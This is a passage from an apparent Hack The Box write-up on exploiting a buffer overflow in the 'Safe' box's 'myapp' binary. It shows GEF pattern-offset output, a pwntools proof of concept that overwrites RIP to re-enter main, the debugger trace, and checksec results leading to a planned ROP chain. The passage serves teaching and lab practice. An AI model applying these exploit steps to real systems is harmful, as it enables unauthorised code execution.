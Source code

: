 ```
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
```
Now we can use this string as input of puts() and see if we can generate a buffer overflow, and if so, we can use ```pattern offset``` to check at what offset we can overwrite the stack.  
```
gef➤  pattern offset paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava
[+] Searching for 'paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava'
[+] Found at offset 120 (big-endian search)
```
Now that we've found the offset let’s start crafting a first proof of concept and see if we can control ```RIP```.  
We can write the following PoC and set a breakpoint to main in order to see if we can hit the same breakpoint twice, if so, this means that we managed to hijack the execution:
```
from pwn import *

context(terminal=['tmux','new-window']) # Default terminal used by pwnlib.util.misc.run_in_new_terminal().
                         # Can be a string or an iterable of strings.
                         # In the latter case the first entry is the terminal and the rest are default arguments.
p = gdb.debug('./myapp', 'b main')
context(os='linux', arch='amd64')

junk = ("A"*120).encode() # Converting string to bytes
call_main=p64(0x0040115f)

p.recvuntil('What do you want me to echo back?')
p.sendline(junk + call_main )
```
Now, if we follow the execution step by step, we can see that when the execution is almost come to the end of main, when we hit RET, we see a call for <main+0> again, so this means that we manage to overwrite the stack pointer. By design, when a function returns, the execution of the program proceed with the first address at the top of the stack (if any), in this case main.
```
0x4011a1 <main+66>        call   0x401030 <puts@plt>
 0x4011a6 <main+71>        mov    eax, 0x0
 0x4011ab <main+76>        leave  
→   0x4011ac <main+77>        ret    
↳    0x40115f <main+0>         push   rbp
    0x401160 <main+1>         mov    rbp, rsp
    0x401163 <main+4>         sub    rsp, 0x70
    0x401167 <main+8>         lea    rdi, [rip+0xe9a]        # 0x402008
    0x40116e <main+15>        call   0x401040 <system@plt>
    0x401173 <main+20>        lea    rdi, [rip+0xe9e]        # 0x402018
```
Now that we've seen that we can hijack the execution let's see what we can do:
```
gef➤  checksec
[+] checksec for '/root/Documents/HTB/Boxes/Safe/myapp'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```
As we can see the the binary has the NX bit set: this means that the stack is not executable.  
In order to overcome this, we need to use a exploitation-technique known as “ROP - Return Oriented Programming”.  
Since NX bit is set, we can’t jump into the stack to execute our code. But with ROP, we can still jump around in the existing code.  